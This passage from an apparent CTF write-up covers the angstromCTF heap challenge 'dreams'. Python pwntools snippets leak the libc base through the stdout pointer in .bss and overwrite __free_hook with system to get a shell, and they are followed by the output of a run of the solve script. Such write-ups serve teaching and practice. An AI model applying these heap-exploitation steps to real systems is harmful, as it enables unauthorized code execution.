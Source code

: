 ### Leaking the libc address

Since our read function is accompanied by a write, we cannot read pointers   in the `got` table (I remind you that our binary file has full `RELRO` protection).
Therefore, we need to search for pointers in sections with allowed writing for data.
Let's remember about pointers to `stdout`, `stderr`, `stdin` in libc in the `.bss` section.
```
.bss:0000000000404018                 public stdout@@GLIBC_2_2_5
.bss:0000000000404018 ; FILE *stdout
.bss:0000000000404018 stdout@@GLIBC_2_2_5 dq ?                ; DATA XREF: LOAD:0000000000400548↑o
.bss:0000000000404018                                         ; deregister_tm_clones↑o ...
```
Great, we will use it to leak the libc address:

```python
leak = read(elf.symbols['stdout@@GLIBC_2.2.5'])
if not leak:
    log.error('Libc address leak failed')
libc.address = leak - libc.symbols['_IO_2_1_stdout_']
log.success('Libc base address leakded: 0x%X', libc.address)
```

### Getting the shell
We get the shell by overwriting the pointer `__free_hook` to `system`. When freed a chunk starting with `b'/bin/sh\x00'`, this string will be passed to the `system` function.
```python
write(libc.symbols['__free_hook'], libc.symbols.system)
malloc(15, b'/bin/sh')
free(15, wait=False)

io.interactive()
```

## Running

```
$ ./solve.py             
[*] '/home/tomasgl/ctf/angstorm/dreams/dreams'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/tomasgl/ctf/angstorm/dreams/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challs.actf.co on port 31227: Done
[*] Starting
[*] Malloc [0] = 0x41 b'A'
[*] Malloc [1] = 0x41 b'A'
[*] Free [0]
[*] Free [1]
[*] Edit [1] = 0x404008
[*] Malloc [2] = 0x41 b'A'
[+] MAX_DREAMS overwrited
[+] Heap base address leaked: 0x47B000
[*] Malloc [10] = 0x41 b'A'
[*] Malloc [11] = 0x41 b'A'
[*] Free [10]
[*] Free [11]
[*] Edit [11] = 0x47B300
[*] Malloc [12] = 0x41 b'A'
```